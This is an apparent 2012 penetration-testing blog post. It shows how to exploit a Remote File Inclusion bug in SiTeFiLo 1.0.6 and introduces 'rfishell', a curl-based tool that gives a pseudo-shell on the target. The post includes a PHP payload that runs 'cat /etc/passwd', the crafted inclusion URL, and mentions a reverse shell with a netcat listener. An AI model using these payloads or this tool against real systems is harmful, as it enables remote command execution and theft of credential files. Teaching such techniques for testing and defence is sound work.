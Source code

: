 ```yaml
---
layout: post
title: "Let's kick shell-ish, Part 2: Remote File Inclusion shell"
date: 2012-06-26 18:10:26 -0400
comments: true
categories: hacking coding
alias: /2012/06/lets-kick-shell-ish-part-2-remote-file.html
---
```


In [Part 1](/2012/06/21/lets-kick-shell-ish-part-1-directory-traversal-made-easy/), we talked about getting a shell-like interface when attacking a target vulnerable to directory traversals. We continue with an article on exploiting Remote File Inclusion (RFI) attacks with a shell.

<!--more-->

Typically if you can find an RFI vulnerability, then you can get it to execute a reverse web shell and you're all done. So what's this article about? In some cases, you may encounter a target that has some serious egress filtering enabled, and you can't find an outgoing port to connect back to your netcat instance. Or maybe you don't want to use a reverse shell for whatever reason. Rather than having to manually edit your RFI file to run commands on the target, we'll create a shell-ish interface to make the hacking experience a little more pleasant.

Let's have a look at a basic RFI example. We've discovered a target running the Simple Text-File Login script (SiTeFiLo). Version 1.0.6 is vulnerable to RFI attacks, as detailed in this advisory: [http://www.securityfocus.com/bid/32811/](http://www.securityfocus.com/bid/32811/)

->![](/images/2012-06-26/01.png)<-

According to the advisory, we can specify the location of our own header.inc.php and have the target execute our PHP code. Let's test this. We create a /var/www/header.inc.php.txt file with the following contents:

```
<?php 
print system("cat /etc/passwd");
?>
```

We craft our URL as follows, which will load our header.inc.php.txt into the target and have it execute cat /etc/passwd for us:

```
http://taint.techorganic.com/slogin/slogin_lib.inc.php?slogin_path=http://cactuar.techorganic.com/
```

When we load up that URL on the browser, we see our command get executed, and the contents of /etc/passwd displayed on the screen:

->![](/images/2012-06-26/02.png)<-

Now that we've verified that we can run commands on the server, we grab our PHP reverse shell, rename it to header.inc.php.txt, fire up netcat to listen for connections, refresh the browser, and... nothing.

->![](/images/2012-06-26/03.png)<-

Well as it turns out, this particular target we're attacking only allows inbound and outbound connections on port 80, and blocks everything else. One alternative around this is to host the PHP reverse shell elsewhere, and have netcat listen on port 80 for connections. If this isn't possible, or you don't want to have a reverse shell, here's one possible solution to simplify command execution on the target, without having to modify the PHP file manually.

I call it rfishell for lack of a better term. Much like dirtshell from Part 1 of this post, rfishell provides a shell-ish interface for you to work on, allowing quick command entry and a clean output. Let's check it out. The command we'll use is

```
rfishell -f /var/www/header.inc.php.txt -u "http://taint.techorganic.com/slogin/slogin_lib.inc.php?slogin_path=http://cactuar.techorganic.com/"
```

This tells rfishell to use /var/www/header.inc.php.txt as our PHP file containing the commands we want to run, and the target URL. When we hit Enter, rfishell presents us with a prompt. We'll enter the command

```
cat /etc/passwd
```

and see the results displayed to us:

->![](/images/2012-06-26/04.png)<-

We can enter commands one after another, as if we were logged into the server with a shell:

->![](/images/2012-06-26/05.png)<-

The script itself is very minimal, but definitely expandable. By default, it uses PHP, but you can modify the rfi_template function to tailor it for ASP, JSP, or whatever else. The script requires curl, so make sure you have that installed. You can get the latest version of rfishell from [GitHub](https://github.com/superkojiman/rfishell). 

The script only takes two parameters, the location of the file that will contain the commands to run, and the target URL. Commands you enter on the prompt are turned into PHP code and saved into the file specified with -f, and curl is used to retrieve the results.

Quick and simple; the way shell scripts should be.
